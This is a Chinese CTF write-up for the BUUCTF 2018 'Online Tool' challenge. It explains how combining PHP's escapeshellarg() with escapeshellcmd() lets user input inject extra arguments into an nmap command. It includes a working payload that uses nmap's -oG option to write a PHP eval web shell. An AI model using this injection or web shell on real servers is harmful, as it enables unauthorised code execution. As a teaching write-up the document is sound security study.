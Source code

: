 # \[BUUCTF 2018]Online Tool

## \[BUUCTF 2018]Online Tool

## 考点

* Nmap使用
* escapeshellarg()+escapeshellcmd() 之殇

## wp

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

GET参数host，然后经过`escapeshellarg()`和`escapeshellcmd()`两个函数的处理，再进行命令拼接

> **`escapeshellarg()`** 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。
>
> **`escapeshellcmd()`** 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。反斜线（\）会在以下字符之前插入： <mark style="color:red;">``&#;`|*?~<>^()[]{}$\``</mark>, <mark style="color:red;">`\x0A`</mark> 和 <mark style="color:red;">`\xFF`</mark>。 <mark style="color:red;">`'`</mark> <mark style="color:red;"></mark><mark style="color:red;">和</mark> <mark style="color:red;"></mark><mark style="color:red;">`"`</mark> <mark style="color:red;"></mark><mark style="color:red;">仅在不配对儿的时候被转义</mark>。 在 Windows 平台上，<mark style="color:red;">所有这些字符以及</mark> <mark style="color:red;"></mark><mark style="color:red;">`%`</mark> <mark style="color:red;"></mark><mark style="color:red;">和</mark> <mark style="color:red;"></mark><mark style="color:red;">`!`</mark> <mark style="color:red;"></mark><mark style="color:red;">字符都会被空格代替</mark>。

先使用`curl`命令作为例子，根据这两个函数的意思，如果传入`127.0.0.1'`，那经过`escapeshellarg()`处理之后就是`'127.0.0.1'\'''`，又经过`escapeshellcmd()`处理后是`'127.0.0.1'\\''\'`，此时执行的命令如下

```php
system("curl '127.0.0.1'\\''\'");
```

就相当于在shell中执行`curl 127.0.0.1\'`，IP地址的单引号可以忽略，中间两个反斜杠转义为一个反斜杠，两个单引号连在一起为空可忽略，最后反斜杠单引号转义为单引号，与前面的反斜杠拼接在一起。

如果传入的是`127.0.0.1' -X POST -d a=1`，那么经过转义之后就是`curl 127.0.0.1\ -X POST -d a=1'`

如果传入`'127.0.0.1'`，那经过`escapeshellarg()`处理之后就是`''\''127.0.0.1'\'''`，又经过`escapeshellcmd()`处理后是`''\\''127.0.0.1'\\'''`，此时执行的命令如下

```php
system("curl ''\\''127.0.0.1'\\'''");
```

就相当于在shell中执行`curl \127.0.0.1\\`，两个单引号连在一起为空可忽略，然后两个反斜杠转义为一个反斜杠，两个单引号连在一起为空可忽略，两个反斜杠用单引号包裹相当于两个反斜杠，最后两个单引号连在一起为空可忽略。

如果传入的是`'127.0.0.1 -X POST -d a=1'`，那么经过转义之后就是`curl \127.0.0.1 -X POST -d a=1\\`

把curl换成本题的命令，命令就是`nmap -T5 -sT -Pn --host-timeout 2 -F \127.0.0.1`` `<mark style="color:red;">`-X POST -d a=1\\`</mark>，红色部分就说明可以控制参数

本题的参数含义`-T5`是使用时间模板5(最快速度扫描)，`-sT`是使用TCP进行全连接扫描，和服务器建立完整的三次握手，`-Pn`跳过主机发现，视所有主机都在线，`--host-timeout 2`是设置超时时间，`-F`是快速扫描模式，比默认的扫描端口还少。而Nmap还有输出到文件的功能，这就是可以getshell的地方。

Nmap的保存功能主要有四种，`-oN`将标准输出直接写入指定的文件，`-oX`输出XML文件，`-oS`将所有的输出都改为大写，`-oG`输出便于通过bash或者perl处理的格式，非XML，`-oA`将扫描结果以标准格式、XML格式和Grep格式一次性输出。

最后能用的只要`-oG`，payload为`' <?php eval($_POST["a"]);?> -oG shell.php '`

处理之后的命令如下

```
nmap -T5 -sT -Pn --host-timeout 2 -F ''\\'' \<\?php eval\(\$_POST\["a"\]\)\;\?\> -oG shell.php '\\'''
```

相当于

```
nmap -T5 -sT -Pn --host-timeout 2 -F \ <?php eval($_POST[a]);?> -oG shell.php \\
```

最终nmap执行的命令为

```
nmap -T5 -sT -Pn --host-timeout 2 -F -oG shell.php \ <?php eval($_POST[a]);?> \\
```

如果<mark style="color:red;">最后一个单引号前不加空格</mark>，那写入的文件就变成`shell.php\\`，是无法解析成php的。

## 小结

1. [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)
2. 类似[\[网鼎杯 2020 朱雀组\]Nmap](wang-ding-bei-2020-zhu-que-zu-nmap.md)
